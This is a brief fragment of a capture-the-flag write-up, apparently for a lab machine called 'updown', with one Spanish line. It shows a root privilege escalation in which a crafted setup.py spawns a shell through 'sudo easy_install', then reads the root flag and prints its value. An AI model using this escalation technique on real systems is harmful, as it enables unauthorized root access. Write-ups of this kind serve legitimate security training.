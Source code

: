 ```null
developer@updown:~$ TF=$(mktemp -d)
developer@updown:~$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
developer@updown:~$ sudo easy_install $TF
WARNING: The easy_install command is deprecated and will be removed in a future version.
Processing tmp.JhZ4jgOdPm
Writing /tmp/tmp.JhZ4jgOdPm/setup.cfg
Running setup.py -q bdist_egg --dist-dir /tmp/tmp.JhZ4jgOdPm/egg-dist-tmp-IbBTex
# whoami
root
# 
```

Y puedo ver la segunda flag

```null
# cat /root/root.txt
3debd08c0d822f8183de51ef88cf1da5
```